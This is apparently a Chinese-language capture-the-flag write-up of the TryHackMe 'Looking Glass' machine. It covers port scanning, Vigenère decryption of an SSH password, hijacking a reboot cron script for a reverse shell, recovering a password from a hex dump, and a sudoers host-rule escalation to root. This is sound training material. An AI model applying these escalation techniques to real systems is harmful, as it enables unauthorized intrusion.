 ```yaml
---
sidebar_position: 96
tags: [Easy, Linux, 密码学, 定时任务, SUDO]
title: "Looking Glass"
description: "Looking Glass"
sidebar_label: "Looking Glass"
slug: /tryhackme/96
---
```

# Looking Glass
## 端口扫描
```bash
root@ip-10-10-210-11:~/lookingglass# nmap -sT -p- --min-rate 1000 10.10.120.27

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-18 01:21 BST
Nmap scan report for ip-10-10-120-27.eu-west-1.compute.internal (10.10.120.27)
Host is up (0.0042s latency).
Not shown: 60534 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
9000/tcp  open  cslistener
....
```

当我们进行端口扫描时, 会报出很多端口, 根据对应的情况猜测, 这个题应该是要我们筛选出正确的端口

## 筛选端口
当我们使用 SSH 连接目标时, 会一直报出一些信息, 根据情况分析应该时针对我们的端口, 因此我使用二分法进行查询, 从中筛选到了正确的端口

![20240703223742](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223742.png)

当我连接正确的端口时, 其给了我一段内容, 询问我要 secret , 根据情况我们需要解密其中的内容

- 在文章首部有: Jabberwocky , 经过查找我发现了 [jabberwocky](https://www.poetryfoundation.org/poems/42916/jabberwocky) 这应该是原文
- 接着我使用工具判断对应的加密类型, 得到为 **Vigenère ,** 接着我询问了 GPT 后得知知道密文和原文我们就可以获取到其 key

```bash
root@ip-10-10-210-11:~/lookingglass# ssh 10.10.120.27 -p 10206
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:
```
因此我利用原文和密文进行了获取 key 的操作, 获取到 key 后根据Vigenère 的加密规矩我从中提权到了 key : Thealphabetcipher, 利用得到的 key 进行解密后得到了一个用户的 SSH 密码[CyberChef](https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('TwasbrilligandtheslithytovesDidgyreandgimbleinthewabeAllmimsyweretheborogovesAndthemomerathsoutgrabe')&input=TWRlc21ncGxtbXpjdnNhbHZsc210c25hb3dpbEZxc25jaXhocmRyeHRibWlicGJ3bGFydWxFbHdicG10Y3BnenRhbHZ1dnZvcmRjZXRFZ2Zid2xxZmZsdmFld3pvdnh6dGlxbA)

## 后渗透
### jabberwock 
利用此密码进行登陆, 在登陆之后我发现用户具有 SUDO 特权但是是重启主机的, 同时查看定时任务我发现有一条系统重启时执行的定时任务

```bash
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

因为对应的执行脚本我们有权控制并且是以 tweedledum  用户身份运行的, 所以修改 `twasBrillig.sh` 的内容来获取反向 Shell

### jabberwock —> tweedledum 

![20240703223856](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223856.png)

### tweedledum  —> humptydumpty
在用户 tweedledum   的家目录中有一个 tweedledum.txt 文件, 查看其内容判断应该时十六进制转储, 因此我将其下载并进行了查看

```bash
root@ip-10-10-210-11:~/lookingglass# xxd -r -p humptydumpty.txt  > output
root@ip-10-10-210-11:~/lookingglass# hexdump -C output
00000000  dc ff f5 eb 40 42 3f 05  5a 4c d0 a8 d7 ed 39 ff  |....@B?.ZL....9.|
00000010  6c b9 81 68 68 f5 76 6b  40 88 b9 e9 90 69 61 b9  |l..hh.vk@....ia.|
00000020  76 92 c3 ad 35 40 bb 80  3c 02 0b 3a ee 66 cd 88  |v...5@..<..:.f..|
00000030  87 12 32 34 ea 0c 6e 71  43 c0 ad d7 3f f4 31 ed  |..24..nqC...?.1.|
00000040  28 39 1d 3b c6 4e c1 5c  bb 09 04 26 b0 4a a6 b7  |(9.;.N.\...&.J..|
00000050  64 9c 3c c8 5f 11 23 0b  b0 10 5e 02 d1 5e 36 24  |d.<._.#...^..^6$|
00000060  b8 08 e1 56 d1 8d 1c ec  dc c1 45 63 75 f8 ca e9  |...V......Ecu...|
00000070  94 c3 65 49 a0 7c 8c 23  15 b4 73 dd 9d 7f 40 4f  |..eI.|.#..s...@O|
00000080  fa 51 fd 49 ab f6 77 05  d6 a3 5d 18 21 8c 11 5f  |.Q.I..w...].!.._|
00000090  f5 63 3a ec 1f 9e bf dc  9d 5d 49 56 41 6f 57 f6  |.c:......]IVAoW.|
000000a0  b9 77 6d 7d df 45 9c 9a  d5 b0 e1 d6 ac 61 e2 7b  |.wm}.E.......a.{|
000000b0  ef b5 e9 9f d6 24 46 67  76 00 d7 ca ce f5 44 d0  |.....$Fgv.....D.|
000000c0  5e 88 48 98 da 28 04 71  51 d0 e5 6f 8d c6 29 27  |^.H..(.qQ..o..)'|
000000d0  73 60 3d 0d 6a ab bd d6  2a 11 ef 72 1d 15 42 d8  |s`=.j...*..r..B.|
000000e0  74 68 65 20 70 61 73 73  77 6f 72 64 20 69 73 20  |the password is |
000000f0  7a 79 78 77 76 75 74 73  72 71 70 6f 6e 6d 6c 6b  |zyxwvutsrqponmlk|
00000100
```

在这里获取到了用户 humptydumpty 的密码

### humptydumpty —> alice
我注意到 alice 用户的家目录具有公共 x 权限, 那么也就是说, 只要权限适当我们就可以读取其中的内容

![20240703223943](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223943.png)

### alice —> root

使用脚本进行查找后我发现了一个特殊的文件

```bash
alice@looking-glass:/etc/sudoers.d$ cat alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

该命令的作用是,允许 alice 用户在 ssalg-gnikool 主机上使用 root 用户的身份运行 /bin/bash

```bash
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool /bin/bash -p
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# id
uid=0(root) gid=0(root) groups=0(root)
```